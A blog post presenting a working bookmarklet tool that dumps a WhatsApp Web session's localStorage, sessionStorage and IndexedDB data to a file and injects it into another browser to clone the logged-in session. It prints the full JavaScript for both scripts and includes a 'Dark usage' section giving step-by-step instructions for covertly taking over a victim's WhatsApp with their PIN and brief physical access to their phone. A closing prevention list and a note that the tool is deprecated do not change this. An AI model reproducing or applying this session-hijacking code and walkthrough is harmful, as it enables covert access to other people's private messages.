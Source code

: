 ```yaml
---
layout: post
title: "WhatsApp Web Session Dumper"
author: Flareonz44
tags: [cybersec]
type: project
metadesc: "An [outdated] whatsapp web hijack that cones the session into a file"
---
```


***All content shown in this post is exclusively for educational purposes. I'm not responsible for the use you make of the information shown here.***

The code is also on my [GitHub](https://github.com/Flareonz44/WhatsApp-Web-Session-Dumper)!

# IMPORTANT NOTICE (08/09/2022)

This tool has been deprecated due to changes in the WhatsApp Web application. The method previously used by this tool no longer works with WhatsApp Web, but it may still be effective on other platforms. Nonetheless, I'll keep this page here for future generations :)

## About

Well, this is what its name suggests: It's a dumper that extracts all the WhatsApp Web data stored on your computer into a file. You can then inject this data into another computer, granting access to the web session without the need to scan the QR code again. This repository consists of two files: `wawebb_session_dumper.js` and `wawebb_session_injector.js`. These two files are independent and can be run separately without affecting the results. Let's take a closer look at what they do.

### wawebb_session_dumper.js

This script iterates over all the data stored on your localStorage, arranges it and creates a file that is automatic downloaded, after you provide a name fot the file.

```javascript
function save(data) {
    var doc = document.createElement("a");
    doc.href = window.URL.createObjectURL(new Blob([data], {
        type: "text/plain"
    }));
    filen = prompt("Input session name", "saved-session") + ".was";
    if (!(filen == "null.was")) {
        doc.download = filen;
        doc.click();
        alert("\nFile successfuly saved as " + filen + "\n\nCreated by Flareonz44");
    }
}
if ((document.title).indexOf("WhatsApp") >= 0) {
    naou = "";
    for (i = 0; i < localStorage.length; i++) {
        keyn = localStorage.key(i);
        datag = localStorage.getItem(localStorage.key(i));
        if (!(i == 0)) {
            naou += "\n";
        }
        naou += keyn + ":::" + datag;
    }
    naou += "\n>>\n";
    for (i = 0; i < sessionStorage.length; i++) {
        keyn = sessionStorage.key(i);
        datag = sessionStorage.getItem(sessionStorage.key(i));
        if (!(i == 0)) {
            naou += "\n";
        }
        naou += keyn + ":::" + datag;
    }
    naou += "\n>>\n";
    idb = indexedDB.open("wawc");
    idb.onsuccess = function() {
        dbm = idb.result;
        d1 = dbm.transaction("user", "readwrite").objectStore("user").getAll();
        d1.onsuccess = function() {
            naou += JSON.stringify(d1.result) + "\n";
            save(naou);
        }
    }
} else {
    alert("\nERROR\nRun script inside WhatsApp's tab!");
}

```

### wawebb_session_injector.js

This scripts does the inverse process of the script above, it asks for the data (created with the last script) of the file, and then it restores all the saved data back to localStorege, then it reloads the page.

```javascript
if ((document.title).indexOf("WhatsApp") >= 0) {
    sesf = prompt("Paste raw data from .was files");
    if (sesf.indexOf(">>") >= 0) {
        sesfarr = sesf.split(">>");
        for (i = 0; i < sesfarr.length; i++) {
            if (i == 0) {
                localStorage.clear();
                keyl = sesfarr[0].split("\n");
                for (j = 0; j < keyl.length; j++) {
                    if (keyl[j].indexOf(":::") >= 0) {
                        key = keyl[j].split(":::")[0];
                        val = keyl[j].split(":::")[1];
                        localStorage.setItem(key, val);
                    }
                }
            } else if (i == 1) {
                sessionStorage.clear();
                keyl = sesfarr[0].split("\n");
                for (j = 0; j < keyl.length; j++) {
                    if (keyl[j].indexOf(":::") >= 0) {
                        let key = keyl[j].split(":::")[0];
                        let val = keyl[j].split(":::")[1];
                        sessionStorage.setItem(key, val);
                    }
                }
            } else if (i == 2) {
                sesfarr[2] = sesfarr[2].replace(/(\n)/g, "");
                let idb = indexedDB.open("wawc");
                idb.onsuccess = function() {
                    let dbm = idb.result;
                    let d1 = dbm.transaction("user", "readwrite").objectStore("user").clear();
                    d1.onsuccess = function() {
                        let d2 = dbm.transaction("user", "readwrite").objectStore("user").put(JSON.parse(sesfarr[2]));
                    }
                }
            }
        }
        alert("\nData successfuly loaded!" + "\n\n       Created by Flareonz44");
        location.reload();
    } else {
        alert("\nERROR\nA valid raw data must be pasted!");
    }
} else {
    alert("\nERROR\nRun Script inside WhatsApp's tab!");
}
```

## Usage

This is very easy to use. First you have to create two bookmarks on Chrome: one for the dumper and the other for the injector. Select all the code above, copy it, and then, create a new bookmark. In the name write wawebb_session_dumper.js and where sais 'URL', delete all and write 'javascript: ' (without quotes and with a space between the ':' and the code, like 'javascript: functi...' rather than 'javascript:functi...') and then, paste the copied code next tho the ': ', like so:

![bookmark how to](/images/2022-8-9-ws-web-session-dumper/1.png)

Then do the same for the other script and save those bookmarks into the same folder. Now go to WhatsApp Web and scan the QR as always. Wait until it is completely loaded and when you are ready, go to your bookmark folder and click on wawebb_session_dumper.js. A prompt will apear asking for for a name for the session, just provide the name you like and click on ok. A file will be downloaded. Thats the session file.

Now, copy that file into an USB stick, or save it on the cloud (or wherever you want) and go to another computer. Open the session file with the notepad and select all the text and copy it to the clipboard. Go to WhatsApp Web on Chrome and launch the bookmark wawebb_session_injector.js. A promp will apear asking you to provide the content of the session file. Just Ctrl + V or right-click-then-paste on the textbox the content of the clipboard and hit ok. Finally realod the page and thats all! you must be logged with the web session like in the first computer.

## Notes

This script was also tested on Android 10 Chrome Browser, so you can dump and inject on Android too! Anyway, I'm afraid that there is not a 100% compatibility, so it may work on the most of the latest devices, but it could fail to execute on older devices. This script was tested on Chrome Browser version 97. Not tested on other browsers.

## Dark usage

As a cyber-security entusiast, I must say that this tool could be used to gain access to someone's WhatsApp. You only need to know the victim's phone password (or PIN) and have phisical access to his phone for at least 1 minute with Internet connection.

Open Chrome Browser on your phone, search for 'whatsapp web' and, on the Google's results page, put your browser in Desktop Mode, then reload the result page and go to Whatsapp Web. Put your phone in landscape mode (rotate it) and wait untill you see the QR code. When it is loaded, grab the victim's phone, go to his WhatsApp and add a new Conected Device, then scan the QR on your phone and when it's done, launch the wawebb_session_dumper.js bookmark (previously created on your Chrome Browser) and then provide a name for the session file.

The next step is to copy the session file to your personal computer and injet it on your browser. Now you can see the victim's WhatsApp.

## Prevention

Here you have some tips for protecting yourself from this kind of attack:
- Always check what Connected Devices you have, and close the ones that seems suspicious.
- Change you phone PIN regularly.
- Prefere text-based password for your phone, rather than a Pattern (which is more easy to remember and hack) and/or
- biometric-based.
- Add a second password to open WhatsApp (you can use an app like Norton App Lock)
- Add the second fingerprint authentication on WhatsApp (only availiable on latest releases and on some devices only)

Till next time!